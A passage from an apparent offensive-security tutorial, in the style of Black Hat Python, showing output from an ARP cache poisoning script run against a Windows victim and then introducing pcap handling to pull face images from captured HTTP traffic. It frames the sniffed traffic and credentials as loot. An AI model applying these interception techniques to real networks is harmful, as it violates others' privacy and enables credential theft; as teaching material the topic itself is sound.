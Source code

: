 Finally, we run out script, which prints the following output:

```
$ sudo python arp_cache_poisoning.py
[*] Setting up wlp1s0
[*] Gateway 192.168.1.1 is at 00:90:a9:a3:f1:46
[*] Target 192.168.1.107 is at 00:25:9c:b3:87:c4
[*] Beginning the ARP poison. [CTRL-C to stop]
[*] Starting sniffer for 1000 packets
[*] ARP poison attack finished.
[*] Restoring targets...
```
While running that, we can see the changes in the victim's machine (Windows):

![](http://i.imgur.com/RFdIz4H.png)

Once you are done,  open the PCAP file resulting from the script. BAM! The entire traffic from the victim is in your hand!






------
## <a name="pcap"></a> PCAP Processing to Find Images

We have learned how to steal credentials from some email protocols, now let us extend this to all the traffic in the network!

### The PCAP Files Manipulation

To save packets we can use the function **wrpacp**:
```python
wrpcap('packets.pcap', p)
```

To read packets we can use **rdpcap**:
```python
p = rdpcap('packets.pcap', p)
p.show()
```

### Setting up the Enviroment


Based in one of the examples from [Black Hat Python]() we are going to analyze images from HTTP traffic dumped in a PCAP file. We can do this with the library [opencv](http://opencv.org/). We also need to install [numpy](http://www.numpy.org/) and [scipy](http://www.scipy.org/):

```sh
$ sudo pip install numpy
$ sudo pip install scipy
$ sudo yum install opencv-python
```

We are going to go through a script that tries to detect image with human faces. But, first, either create or download a PCAP file with these images. For instance, these are some PCAP dump online sources:
[here](http://wiki.wireshark.org/SampleCaptures), [here](http://www.netresec.com/?page=PcapFiles), [here](http://www.pcapr.net/home), and [here](http://www.pcapr.net/browse?q=facebook+AND+png).
